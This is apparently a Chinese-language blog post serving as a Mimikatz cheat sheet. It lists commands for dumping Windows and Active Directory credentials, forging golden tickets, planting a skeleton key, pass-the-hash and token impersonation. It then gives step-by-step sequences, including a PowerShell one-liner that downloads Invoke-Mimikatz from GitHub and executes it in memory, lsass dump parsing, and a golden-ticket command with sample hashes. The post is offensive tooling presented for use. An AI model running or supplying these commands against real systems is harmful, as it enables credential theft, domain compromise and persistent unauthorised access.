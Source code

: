 ```yaml
---
published: true
layout: post
---
```




# 常用的Mimikatz命令及相关功能
[下载链接](http://blog.gentilkiwi.com/mimikatz)

---



`CRYPTO::CERTIFICATES` 列出/导出凭证

`EXIT` 退出

`KERBEROS::GOLDEN`  创建黄金票证/白银票证/信任票证

`KERBEROS::LIST` ---------------- 列出在用户的内存中所有用户的票证（TGT 和 TGS）。不需要特殊的权限，因为它仅显示当前用户的票证。与 “KLIST” 的功能相似。

`KERBEROS::PTT` ----------------- 票证传递。通常用于注入窃取或伪造的 `KERBEROS` 票证（黄金票证/白银票证/信任票证）。

`LSADUMP::DCSYNC` --------------- 向 DC 发起同步一个对象（获取帐户的密码数据）的质询。无需在 DC 上执行代码。

`LSADUMP::LSA` –----------------- 向 LSA SERVER 质询检索 SAM/AD 的数据（正常或未打补丁的情况下）。可以从 DC 或者是一个LSASS.DMP 的转储文件中导出所有的 ACTIVE DIRECTORY 域凭证数据。同样也可以获取指定帐户的凭证，如 KRBTGT 帐户，使用 /NAME 参数，如：“/NAME:KRBTGT”

`LSADUMP::SAM` ------------------ 获取 SYSKEY 来解密 SAM 的项目数据（从注册表或者 HIVE 中导出）。SAM 选项可以连接到本地安全帐户管理器（SAM）数据库中并能转储本地帐户的凭证。可以用来转储在 WINDOWS 计算机上的所有的本地凭据。

`LSADUMP::TRUST` ---------------- 向 LSA SERVER 质询来获取信任的认证信息（正常或未打补丁的情况下）。为所有相关的受信的域或林转储信任密钥（密码）。

`MISC::ADDSID` –----------------- 将用户帐户添加到 SID 历史记录。第一个值是目标帐户，第二值是帐户/组名（可以是多个）（或 SID ）。

`MISC::MEMSSP` –----------------- 注入恶意的 WNDOWS SSP 来记录本地身份验证凭据。

`MISC::SKELETON` –--------------- 在 DC 中注入万能钥匙（SKELETON KEY） 到 LSASS 进程中。这使得所有用户所使用的万能钥匙修补 DC 使用 “主密码” （又名万能钥匙）以及他们自己通常使用的密码进行身份验证。

`NOGPO::CMD`--------------------- 打开系统的CMD.EXE

`NOGPO::REGEDIT` ---------------- 打开系统的注册表

`NOGPO::TASKMGR`----------------- 打开任务管理器

`PROCESS::LIST`------------------ 列出进程

`PROCESS::SUSPEND 进程名称` ------ 暂停进程

`PROCESS::STOP 进程名称`---------- 结束进程

`PROCESS::MODULES` -------------- 列出系统的核心模块及所在位置

`PRIVILEGE::DEBUG` -–------------ 获得 DEBUG 权限（很多 MIMIKATZ 命令需要 DEBUG 权限或本地 SYSTEM 权限）。

`PRIVILEGE::LIST`---------------- 列出权限列表

`PRIVILEGE::ENABLE`-------------- 激活一个或多个权限

`SYSTEM::USER`------------------- 查看当前登录的系统用户

`SYSTEM::COMPUTER`--------------- 查看计算机名称

`SERVICE::LIST`------------------ 列出系统的服务

`SERVICE::REMOVE`---------------- 移除系统的服务

`SERVICE::START STOP 服务名称`---- 启动或停止服务

`SEKURLSA::WDIGEST`-------------- 获取本地用户信息及密码

`SEKURLSA::TSPKG`---------------- 获取TSPKG用户信息及密码

`SEKURLSA::EKEYS` –-------------- 列出 KERBEROS 密钥

`SEKURLSA::KERBEROS` –----------- 列出所有已通过认证的用户的 KERBEROS 凭证（包括服务帐户和计算机帐户）

`SEKURLSA::KRBTGT` –------------- 获取域中 KERBEROS 服务帐户（KRBTGT）的密码数据

`SEKURLSA::LOGONPASSWORDS` –----- 列出所有可用的提供者的凭据。这个命令通常会显示最近登录过的用户和最近登录过的计算机的凭证。

`SEKURLSA::PTH` –---------------- HASH 传递 和 KEY 传递（注：OVER-PASS-THE-HASH 的实际过程就是传递了相关
的 KEY(S)）

`SEKURLSA::TICKETS` –------------ 列出最近所有已经过身份验证的用户的可用的 KERBEROS 票证，包括使用用户帐户的上下文运行的服务和本地计算机在 AD 中的计算机帐户。与 KERBEROS::LIST 不同的是 SEKURLSA 使用内存读取的方式，它不会受到密钥导出的限制。

`TS::SESSIONS`------------------- 显示当前的会话

`TS::PROCESSES`------------------ 显示进程和对应的PID情况等

`TOKEN::LIST` –------------------ 列出系统中的所有令牌

`TOKEN::ELEVATE` –--------------- 假冒令牌。用于提升权限至 SYSTEM 权限（默认情况下）或者是发现计算机中的域管理员的令牌。

`TOKEN::ELEVATE /DOMAINADMIN` –-- 假冒一个拥有域管理员凭证的令牌。

mimikatz # lsadump::lsa /inject /name:krbtgt

mimikatz # lsadump::lsa /patch




-------------------------------------------------

常用

# 获取本机信息

* 直接获取内存口令 mimikatz：
`privilege::debug`
`sekurlsa::logonpasswords`

* 通过内存文件获取口令 使用procdump导出lsass.dmp mimikatz：
`sekurlsa::minidump lsass.dmp`
`sekurlsa::logonPasswords full`

* 通过powershell加载mimikatz获取口令
`powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz`

参考[3gstudent大神](http://static.hx99.net/static/drops/tips-7547.html):

`ms14-068.exe -u -p -s -d`
`kerberos::ptc test.ccache`

* 导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份（之前文章有介绍） mimikatz：
`lsadump::sam SYSTEM.hiv SAM.hiv`

# 维持域控权限

* Skeleton Key mimikatz：
`privilege::debug`
`misc::skeleton`

* golden ticket mimikatz：
`lsadump::lsa /patch`


* (Golden Ticket)生成万能票据： mimikatz：
`kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-2848411111-3820811111-1717111111 /krbtgt:d3b949b1f4ef947820f0950111111111 /ticket:test.kirbi`

* 导入票据： mimikatz：
`kerberos::ptt test.kirbi`

* Pass-The-Hash mimikatz：
`sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a`

[mimikittenz](https://github.com/putterpanda/mimikittenz)是一款ps的抓密码的工具
![post1]({{ site.baseurl }}/images/post1.jpg)
